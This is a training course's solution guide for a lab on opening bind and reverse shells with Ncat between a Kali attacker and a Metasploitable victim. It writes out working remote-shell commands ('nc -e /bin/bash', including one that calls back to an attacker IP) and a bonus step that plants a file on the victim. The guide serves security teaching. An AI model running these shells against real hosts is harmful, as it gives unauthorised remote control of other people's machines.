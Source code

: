 ## Solution Guide: Bind and Reverse Shells and Ncat

The goal of this activity was to manually use Ncat to establish backdoors on remote hosts. Please note because IPs are not static, your answers may slightly vary.

---

1. **Bind shell**: Using Ncat, set up a listener on the victim's machine so you can connect to it from the attacker's machine. After testing it, document the following:

   - Which commands did you run on the Metasploitable machine?
     `nc -lvnp 4444 -e /bin/bash`
   - Which commands did you run on the Kali machine?
     `nc 192.168.0.10 4444`
   - Explain the syntax of of any options used.

     ```text
     -l: Tells Ncat to listen for incoming connection .
     -n: Do not do any DNS or service lookups on any specified addresses, hostnames or ports.
     -v: Means verbose, which will print more information about the connection.
     -p <port number>: Specifies which port to listen on.
     -e: filename to execute after connection. In this case a bash shell, specifically, `/bin/bash`.
     ```

2. **Reverse shell**: Using Ncat, set up a listener on the attacker's machine that is prepared for the victim's machine to connect back to it. After testing it, document the following:

   - Which commands did you run on the Metasploitable machine?
     `nc 192.168.0.08 4444 -e /bin/bash`
   - Which commands did you run on the Kali machine?
     `nc -lvnp 4444`

### Bonus  

Re-exploit the victim's machine, and create a `hacked.txt` file in their home folder. Verify you created the .txt file successfully by logging into the metasploitable machine and reading it.

- Solution:
  `cd /home/msfadmin && echo "You've been hacked!" >> hacked.txt`

---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
